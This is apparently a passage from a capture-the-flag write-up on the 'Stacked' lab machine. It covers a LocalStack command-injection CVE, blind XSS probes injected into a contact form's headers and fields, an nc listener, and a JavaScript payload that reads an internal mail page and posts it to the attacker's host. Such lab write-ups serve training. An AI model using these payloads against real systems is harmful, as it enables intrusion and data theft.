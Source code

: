 Based on the [releases of LocalStack](https://github.com/localstack/localstack/releases), version 0.12.6 is from February 2021 and may have vulnerabilities.
When searching for CVEs, there is one [critical vulnerability CVE-2021-32090](https://www.cvedetails.com/cve/CVE-2021-32090/) from May 2021.
```
The dashboard component of StackLift LocalStack 0.12.6 allows attackers to inject arbitrary shell commands via the functionName parameter.
```

The ports for the software are all listening on localhost, so a way to access internal services has to be found.

On _portfolio.stacked.htb_ there is a contact form which can be sent to a proxy like **Burpsuite** to test client-side vulnerabilities in the fields and headers:
```
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: <img src="http://10.10.14.3/ua"></img>
(...)
Referer: <img src="http://10.10.14.3/referer"></img>

fullname=<img src="http://10.10.14.3/name"></img>&email=test@test.local&tel=123456789012&subject=<img src="http://10.10.14.3/subject"></img>&message=<img src="http://10.10.14.3/message"></img>
```

After a while _/referer_ is responds, which means that the _Referer header_ can be used to inject code:
```
nc -lvnp 80
```
```
GET /referer HTTP/1.1
Host: 10.10.14.3
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
(...)
Referer: http://mail.stacked.htb/read-mail.php?id=2
```

After adding the hostname _mail.stacked.htb_ to the _/etc/hosts_ file, it can be accessed but forwards to the same page as before.

### Exploiting Cross-Site Request Forgery Vulnerability

Creating JavaScript code _(csrf.js)_ to send request from the server to our local client on port 8000:
```js
var target = "http://mail.stacked.htb/";

var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send();
var response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', "http://10.10.14.3:8000/", false);
req2.send(response);
```
